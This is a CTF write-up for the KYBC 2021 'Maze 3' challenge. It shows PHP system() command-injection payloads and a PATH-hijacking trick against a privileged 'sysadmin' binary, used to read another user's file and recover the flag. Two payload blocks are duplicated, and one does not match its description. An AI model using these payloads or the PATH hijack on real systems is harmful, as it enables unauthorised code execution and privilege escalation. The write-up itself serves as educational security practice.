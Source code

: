 Title: KYBC 2021 - Maze 3 Writeup
Date: 2021-03-24
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-3-writeup
Author: Giulia Vergottini
Summary: Writeup for Maze 3 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 2]({filename}/CTF/kybc-yogosha-maze2.md) first_

Third maze, third user. Let's check what's in `home/ctf_user3`

```
<?php system('ls -al /home/ctf_user3'); ?>
```

It looks like ctf_user2 owns `image.txt` and `RAnd0m`. Hovewer, neither concatenating the content of `image.txt` nor running the `RAnd0m` executable bring anything useful.

Let's try to inspect the binary then with the good ol' `strings`

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

No luck. What about `od` then?

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```
Well that worked. Now I only need to figure out how to get out a proper hexdump from it. After a bit of digging, the `man` page comes to the rescue and provides with the syntax I need.

```
<?php system('echo "od -A x -t x1z -v /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Let's copy the hex dump into a txt file in my machine, recreate the binary and finally run `strings` on it

```
xxd -r -p rand.txt out.bin
strings out.bin
```

One of the strings seems to match the flag pattern `pvkq{dbiH._dy_pvkqH.E.H.U.H._wo_?}`.

Running it through a [ROT decoder](http://theblob.org/rot.cgi?) gives me `flag{tryX._to_flagX.U.X.K.X._me_?}`. Since the flag doesn't look too right and the system doesn't accept anyway, let's assume I probably messed up something while tinkering with `od` and manually fix it: `flag{try_to_flag_me_?}`.
